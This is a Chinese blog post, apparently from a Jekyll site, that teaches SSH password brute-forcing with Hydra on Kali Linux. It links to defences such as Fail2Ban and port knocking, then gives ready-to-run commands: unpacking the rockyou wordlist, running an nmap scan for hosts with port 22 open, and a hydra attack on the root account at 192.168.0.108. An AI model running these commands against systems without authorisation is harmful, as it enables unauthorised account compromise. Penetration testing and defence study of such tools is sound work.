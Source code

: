 ```yaml
---
layout: post
title: 使用Hydra通过ssh破解密码
---
```


Hydra是非常高效的网络登录破解器，它可以对多种服务程序执行[暴力破解](http://topspeedsnail.com/hack-brute-force/)（SSH、VNC等等）。

防止这种攻击其实很容易，方法很多。以SSH为例：

* [Ubuntu：使用Port Knocking隐藏SSH端口](http://blog.topspeedsnail.com/archives/3936)
* [在Ubuntu中用Fail2Ban保护SSH](http://blog.topspeedsnail.com/archives/262)
* [CentOS 7安装使用Fail2Ban保护SSH](http://blog.topspeedsnail.com/archives/3119)
* [Debian使用Fail2Ban和Tinyhoneypot增加网络安全](http://blog.topspeedsnail.com/archives/3667)

*****

Kail Linux有一个的GUI版本：xhydra，也有一个命令行版本：hydra。

xhydra：

![xhydra]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-16 10-26-48.png)

hydra：

![hydra]({{ site.baseurl }}/images/2016/4/Screenshot from 2016-04-16 10-28-41.png)

我使用命令行版本：hydra

### 字典

这种攻击需要字典文件，一个好的字典至关重要。我以Kali Linux自带的rockyou字典为例，位于/user/share/wordlists/rockyou.txt.gz。使用前先解压：

{% highlight shell %}
# gzip -d /usr/share/wordlists/rockyou.txt.gz
{% endhighlight %}

### 使用nmap扫描开启SSH服务的主机

扫描SSH服务使用的22端口，确定可以施行破解的主机。

{% highlight shell %}
＃ nmap -p 22 -open -sV one_IP_or_range_or_subnet > MyTarget
{% endhighlight %}

### 使用hydra暴力破解

{% highlight shell %}
# hydra -s 22 -v -l root -P /usr/share/wordlists/rockyou.txt 192.168.0.108 ssh
{% endhighlight %}

更多选项，查看man hydra。